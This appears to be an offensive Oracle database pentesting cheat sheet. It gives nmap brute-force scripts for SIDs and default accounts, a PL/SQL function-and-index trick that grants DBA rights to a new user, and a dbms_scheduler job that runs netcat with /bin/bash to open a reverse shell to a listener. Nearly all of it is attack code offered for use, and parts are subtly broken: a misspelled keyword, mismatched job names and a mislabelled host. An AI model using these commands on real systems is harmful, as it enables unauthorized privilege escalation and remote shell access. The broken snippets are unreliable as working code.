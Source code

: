 ##### Identify default accounts within oracle db using NMAP NSE scripts: 

```
nmap --script=oracle-sid-brute 
nmap --script=oracle-brute 
```
Login using the identified weak account (assuming you find one).

##### How to identify the current privilege level for an oracle user: 


```
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
```


##### Oracle priv esc and obtain DBA access: 

Run netcat: <code>netcat -nvlp 443</code>code> 


```
SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
```

##### Run the exploit with a select query: 

```
SQL> Select * from session_privs; 
```

You should have a DBA user with creds user1 and pass1. 

Verify you have DBA privileges by re-running the first command again. 

##### Remove the exploit using: 
```
drop index exploit_1337; 
```

##### Get Oracle Reverse os-shell:

```
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
``` 
